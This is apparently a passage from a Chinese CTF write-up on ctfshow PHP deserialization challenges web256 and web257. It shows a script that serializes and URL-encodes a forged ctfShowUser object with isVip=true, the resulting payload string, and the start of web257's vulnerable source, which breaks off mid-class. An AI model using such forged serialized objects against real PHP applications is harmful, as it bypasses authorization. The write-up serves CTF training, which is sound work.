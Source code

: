 ```php
        }  
    }else{  
        echo "no vip,no flag";  
    }  
}
```

这一题比上一题多了一个条件就是user中的username和password不能相等，所以我们构造序列化的时候修改一下就可以了

```php
<?php  
class ctfShowUser{  
    public $username='111';  
    public $password='222';  
    public $isVip=true;  
}  
echo urlencode(serialize(new ctfShowUser()));  
?>
```

得到数据：
```txt
O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A3%3A%22111%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22222%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```

构造payload
![Pasted image 20241006120754.png](/img/user/picture/Pasted%20image%2020241006120754.png)




# web257

```php
<?php  
  
error_reporting(0);  
highlight_file(__FILE__);  
  
class ctfShowUser{  
    private $username='xxxxxx';  
    private $password='xxxxxx';  
    private $isVip=false;  
    private $class = 'info';  
  
    public function __construct(){        
    $this->class=new info();  
    }  
    public function login($u,$p){  
        return $this->username===$u&&$this->password===$p;  
    }  
    public function __destruct(){        
    $this->class->getInfo();  
    }  
  
}  
  
class info{  
    private $user='xxxxxx';  
    public function getInfo(){  
        return $this->user;  
    }  
}  
  
class backDoor{  
```